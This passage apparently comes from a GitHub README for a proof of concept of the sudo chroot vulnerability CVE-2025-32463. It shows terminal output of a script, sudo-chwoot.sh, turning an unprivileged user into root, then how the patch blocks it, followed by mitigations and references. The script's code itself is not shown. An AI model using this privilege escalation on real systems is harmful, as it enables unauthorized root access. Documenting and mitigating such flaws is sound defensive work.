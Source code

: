 Executing on Ubuntu 24.04.2 LTS server with `Sudo v1.9.15p5`, using an unprivileged user with no Sudo rules defined, results in a root shell outside of the chrooted environment.
```none
lowpriv@prod:~/CVE-2025-32463$ id
uid=1001(lowpriv) gid=1001(lowpriv) groups=1001(lowpriv)
lowpriv@prod:~/CVE-2025-32463$ sudo -l
[sudo] password for lowpriv:
Sorry, user lowpriv may not run sudo on prod.
lowpriv@prod:~/CVE-2025-32463$ ./sudo-chwoot.sh
woot!
root@prod:/# id
uid=0(root) gid=0(root) groups=0(root),1001(lowpriv)
```

## the sudo Patch?
The patch essentially reverts to the changes implemented in `Sudo 1.9.14`. The _pivot_root()_ and _unpivot_root()_ functions were removed, and _chroot()_ is no longer called during the command matching phase.

With the patch applied, the exploit fails because _chroot()_ is no longer called.
```none
lowpriv@prod:~/CVE-2025-32463$ ./sudo-chwoot.sh
woot!
sudo: the -R option will be removed in a future version of sudo
Password:
sudo: you are not permitted to use the -R option with woot
```
# Mitigations
- Install the latest sudo packages for your system. No workaround exists for this issue.
- The chroot option is now deprecated as of 1.9.17p1. It is recommended to avoid using the chroot options, as this could unintentionally make your environment less secure if not implemented properly.
- Search your environment for any use of the chroot option. Review all Sudo rules defined in /etc/sudoers, and files under /etc/sudoers.d. If the Sudo rules are stored in LDAP, use tools such as ldapsearch to dump the rules.
- Look for the use of the runchroot= option or CHROOT=
- You can search for sudo entries in the syslog. Any commands using chroot will be logged with the CHROOT=

### References
[stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
[nvd.nist.gov/CVE-2025-32462](https://nvd.nist.gov/vuln/detail/CVE-2025-32462)
[www.sudo.ws/advisories/chroot_bug/](https://www.sudo.ws/security/advisories/chroot_bug/)
[https://www.youtube.com/watch?=low-level-code/sudo-chwoot](https://www.youtube.com/watch?v=9nRr3R9gEb8&t=307s)
